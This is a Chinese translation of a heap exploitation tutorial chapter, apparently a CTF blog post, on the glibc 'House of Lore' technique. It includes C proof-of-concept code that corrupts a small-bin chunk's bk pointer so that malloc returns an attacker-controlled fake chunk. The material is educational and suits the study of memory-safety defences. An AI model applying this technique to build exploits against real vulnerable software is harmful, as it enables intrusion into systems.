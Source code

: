 ```yaml
---
title: Heap Exploitation系列翻译-14 House of Lore
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```

# House of Lore

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击基本上是对于small bin和large bin的伪造堆块攻击. 然而, 因为约在2007年(对`fd_nextsize`和`bk_nextsize`的引入)一个新增的对large bin的保护, 该项技术变得不再可行. 这里我们只考虑small bin的情形. 首先, 一个small chunk会被放置在small bin中, 它的`bk`指针会被覆写成指向一个伪造的small chunk. 要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`. 一次malloc调用将首先移除bin中理应存在的堆块从而致使我们的伪堆块到了bin的`尾部`. 再下一次malloc调用就会返回攻击者的堆块.

考虑以下示例代码(下载完整版本 [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_lore.c)))

```c
struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

struct small_chunk fake_chunk;                  // At address 0x7ffdeb37d050
struct small_chunk another_fake_chunk;
struct small_chunk *real_chunk;
unsigned long long *ptr, *victim;
int len;

len = sizeof(struct small_chunk);

// Grab two small chunk and free the first one
// This chunk will go into unsorted bin
ptr = malloc(len);                              // points to address 0x1a44010

// The second malloc can be of random size. We just want that
// the first chunk does not merge with the top chunk on freeing
malloc(len);                                    // points to address 0x1a440a0

// This chunk will end up in unsorted bin
free(ptr);

real_chunk = (struct small_chunk *)(ptr - 2);   // points to address 0x1a44000

// Grab another chunk with greater size so as to prevent getting back
// the same one. Also, the previous chunk will now go from unsorted to
// small bin
malloc(len + 0x10);                             // points to address 0x1a44130

// Make the real small chunk's bk pointer point to &fake_chunk
// This will insert the fake chunk in the smallbin
real_chunk->bk = &fake_chunk;
// and fake_chunk's fd point to the small chunk
// This will ensure that 'victim->bk->fd == victim' for the real chunk
fake_chunk.fd = real_chunk;

// We also need this 'victim->bk->fd == victim' test to pass for fake chunk
fake_chunk.bk = &another_fake_chunk;
another_fake_chunk.fd = &fake_chunk;

// Remove the real chunk by a standard call to malloc
malloc(len);                                    // points at address 0x1a44010

// Next malloc for that size will return the fake chunk
victim = malloc(len);                           // points at address 0x7ffdeb37d060
```

要注意到, 构造一个small chunk需要更多的步骤, 这是因为small chunks复杂的处理操作. 需要特别小心以确保每一个将要使用malloc返回的small chunk都满足`victim->bk->fd == victim`, 以通过安全检查"malloc(): smallbin double linked list corrupted". 此外也添加了额外的'malloc'调用以确保:

1. 第一个堆块在释放时会添加到unsorted bin而不是和top chunk合并
2. 第一个堆块会进入到small bin中因为它不满足大小为`len + 0x10`的malloc申请.

unsorted bin和small bin的状态如下所示

1. free(ptr).
  Unsorted bin:
  > head <-> ptr <-> tail

  Small bin:
  > head <-> tail
2. malloc(len + 0x10);
  Unsorted bin:
  > head <-> tail

  Small bin:
  > head <-> ptr <-> tail
3. Pointer manipulations1
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> ptr <-> tail
4. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> tail
5. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> tail         [ Fake chunk is returned ]

注意, 再次对small bin进行'malloc'调用会造成段错误

